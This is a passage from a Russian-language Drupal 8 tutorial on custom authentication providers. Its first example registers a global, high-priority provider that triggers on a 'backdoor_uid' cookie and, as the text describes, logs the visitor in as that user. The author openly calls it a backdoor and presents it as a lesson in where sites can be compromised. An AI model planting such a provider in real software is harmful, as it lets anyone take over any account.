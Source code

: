 ## Пример №1 — авторизация через спец. cookie

Этот пример с одной стороны плохой, так как является самым настоящим бэкдором, с
другой же стороны он хороший, в том что он очень легок для понимания что там
происходит, а также показывает на практике как можно заложить в 8-ке дыру для
бэкдора. Таким образом, вы будете знать где проверять потенциальные дыры на
сайте.

Данный провайдер будет делать простейшую вещь. Он будет глобальным, и будет
активироваться только если у пользователя есть кука с именем `backdoor_uid`. Он
будет пытаться найти пользователя с указанным uid на сайте, и если найдет,
авторизовывать под ним.

Первым делом объявим наш сервис в **dummy.services.yml**.

```yml {"header":"dummy.services.yml"}
services:
  authentication.dummy.cookie_backdoor:
    class: Drupal\dummy\Authentication\Provider\CookieBackdoorProvider
    arguments: ['@entity_type.manager']
    tags:
      - { name: authentication_provider, provider_id: cookie_backdoor, priority: 100, global: TRUE }
```

Мы указали аргумент `entity_type.manager` для нашего сервиса. Так как в итоге
нам необходимо загрузить юзера и вернуть его при успешном ответе, этот сервис
будет крайне полезным. Затем мы указали теги где выставили приоритет в 100,
чтобы он был выше стандартного `cookie` и указали на то, что он является
глобальным (будет срабатывать везде). Также мы указали объект который будет
обрабатывать всю логику, его то мы сейчас и создадим:

```php {"header":"/src/Authentication/Provider/CookieBackdoorProvider.php"}
<?php

namespace Drupal\dummy\Authentication\Provider;

use Drupal\Core\Authentication\AuthenticationProviderInterface;
use Drupal\Core\Entity\EntityTypeManagerInterface;
use Symfony\Component\HttpFoundation\Request;

/**
 * Class CookieBackdoorProvider.
 */
class CookieBackdoorProvider implements AuthenticationProviderInterface {

  /**
   * The entity type manager.
   *
   * @var \Drupal\Core\Entity\EntityTypeManagerInterface
   */
  protected $entityTypeManager;

  /**
   * {@inheritdoc}
   */
  public function __construct(EntityTypeManagerInterface $entity_type_manager) {
    $this->entityTypeManager = $entity_type_manager;
  }

  /**
   * Checks whether suitable authentication credentials are on the request.
   */
  public function applies(Request $request) {
    return $request->cookies->has('backdoor_uid');
  }
```

[drupal-8-services]: ../../../../2017/06/21/drupal-8-services/index.ru.md
[drupal-8-how-to-create-a-custom-rest-plugin]: ../../16/drupal-8-how-to-create-a-custom-rest-plugin/index.ru.md